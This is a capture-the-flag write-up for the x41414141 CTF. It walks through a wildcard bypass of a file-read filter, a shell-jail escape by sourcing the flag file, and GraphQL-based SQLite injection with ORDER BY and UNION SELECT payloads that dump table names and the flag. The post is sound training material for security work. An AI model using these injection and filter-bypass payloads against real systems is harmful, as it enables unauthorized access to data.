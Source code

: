 ```yaml
---
title: "x41414141 CTF Writeup"
date: 2021-02-01 00:05:00 -0800
categories: [CTF, writeup]
tags: [writeup, web, commandinjection, misc, linux]
toc: true
---
```


> Blockchain-focused CTF, hosted by Offshift

## Introduction

x41414141 CTF is sponsored by Offshift, and the challenge creators are the mods from John Hammond's Discord server. I played with IrisSec.

## Pin Code (Entry Challenge)

On the main page of the CTF, there is a GIF with Offshift (the sponsor)'s logo. Downloading the GIF, I run strings on it. There is one string with the word "Secret" followed by a binary string.

I take the binary number and convert it to decimal, and I can use it as a pin for the website.

## File Reader (77 Solves)

> hello guys, I started this new service check note.txt file for a sanity check 207.180.200.166 2324

It asks me for a file to read, and I want to read /flag.txt.

They filtered out the word ``flag`` when reading files. I could bypass this using the ? wildcard character, or by using *. 

Potential Solutions

```
/????.txt
/????.???
/fl*.txt
```

## SH Jail (36 Solves)

We get source code, showing off a filter and showing that flag.txt was marked as 555, or readable and executable.

Using this, we can bypass the filter to "run" the text file in bash and it will show the "command" or the line/flag in the file.

When we bypass the filter, our output is executed. So we can do something like this:

```
. flag.[a-z][a-z][a-z]
```

This will leak the flag:

```
flag.txt: line 1: flag{w3ll_th1s_f1l3_sh0uldnt_h4v3_fl4g_1n_2738372131}: command not found
[0;32mThe command has been executed. Let's go again![0m
```

> flag{w3ll_th1s_f1l3_sh0uldnt_h4v3_fl4g_1n_2738372131}


## Graphed 2.0 (120 Solves)

Got help from someone but i was close :(

The premise of the challenge is GraphQL-based SQLi.

First, some enumeration.

```
http://45.134.3.200:8080/graphql?query={__schema{types{name,fields{name}}}}
```

This got me all the information I needed about edges/nodes/options in order to enumerate further.

```
http://45.134.3.200:8080/graphql?query={coolNotes{body}}
http://45.134.3.200:8080/graphql?query={allNotes{edges{node{uuid,body}}}}
http://45.134.3.200:8080/graphql?query={allUsers{edges{node{uuid,%20username,%20id}}}}
http://45.134.3.200:8080/graphql?query={allUsers{edges{node{notes{edges{node{body}}}}}}}
http://45.134.3.200:8080/graphql?query={getNote{author{notes{edges{node{title}}}}}}
http://45.134.3.200:8080/graphql?query={allNotes{edges{node{title,%20body,%20id}}}} 
```

I went through everything, not much luck. Then someone pointed out there was a parameter query on Cool Notes, so like this:

```
{getNote(q:"query"){title, body}}
```

Where I return the title and body of each note that corresponds with my query.

Doing something like this:

```
{getNote(q:"'"){title, body}}
```

gives an sqlite 3 error. Epic, easy to do stuff from here.

Say we want to view all notes:

```
{getNote(q:"' or 1=1 or '"){title, body}}
```

So now we need to get the number of columns.

```
q: "' ORDER BY 1;--"
q: "' ORDER BY 2;--"
q: "' ORDER BY 3;--"
q: "' ORDER BY 4;--"
q: "' ORDER BY 5;--" - this one errored out
```

Now that we know that, we can do a union select to get all the table names.

Used this:

```
45.134.3.200:8080/graphql?query={getNote(q:"'or1=1unionselect1,group_concat(tbl_name),3,4FROMsqlite_master WHEREtype='table'andtbl_nameNOTlike'sqlite_%';--'"){title,body}}
```

Found table name ``العلم``.

Now I can select flag from the table (just guessed/assumed to select flag)

```
http://45.134.3.200:8080/graphql?query={getNote(q:"' or 1=1 union select 1,flag,3,4 FROM العلم ;-- '"){title, body}}
```

I could have gotten table names though with something like this:

```
' OR 1=1 UNION SELECT 1, sql, 3, 4 from sqlite_master WHERE name='العلم'--
```

> flag{h0p3_u_can't_r3@d_1t9176}

